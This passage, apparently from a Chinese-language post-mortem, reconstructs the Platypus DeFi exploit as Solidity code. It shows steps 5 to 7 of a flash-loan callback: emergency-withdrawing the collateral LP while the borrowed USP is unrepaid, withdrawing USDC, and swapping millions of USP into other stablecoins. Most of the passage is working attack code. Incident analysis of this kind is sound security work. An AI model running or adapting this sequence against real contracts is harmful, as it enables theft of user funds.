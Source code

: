 ```solidity
       //step5
        logPositionHealthCheck(address(LP_USDC));
        masterPlatypusV4.emergencyWithdraw(4);//取LP.  抵押LP借的USP还未换，就取款。
        logPositionHealthCheck(address(LP_USDC));

              
        return true;
 }
```
### - step6：向 `platypusPool` 取款 USDC
```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
       //step3
      ...
       //step4
      ...
       //step5
        ...
        //step6
        LP_USDC_myBalance = LP_USDC.balanceOf(address(this));
        LP_USDC.approve(address(platypusPool), LP_USDC_myBalance);
        platypusPool.withdraw(address(USDC), LP_USDC_myBalance, 0, address(this), block.timestamp+1000);
        
        return true;
 }
```
### - step7：将白嫖的USP，swap成外面通用的稳定币。
这里没有兑换完所有的USP，攻击者手里还剩下很多。
```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
       //step3
      ...
       //step4
      ...
       //step5
        ...
        //step6
        ...
       //step7
        USP.approve(address(platypusPool), 9_000_000e18);
        platypusPool.swap(address(USP), address(USDC), 2_500_000e18, 0, address(this), block.timestamp+1000);
        platypusPool.swap(address(USP), address(USDC_e), 2_000_000e18, 0, address(this), block.timestamp+1000);
        platypusPool.swap(address(USP), address(USDT), 1_600_000e18, 0, address(this), block.timestamp+1000);
        platypusPool.swap(address(USP), address(USDT_e), 1_250_000e18, 0, address(this), block.timestamp+1000);
```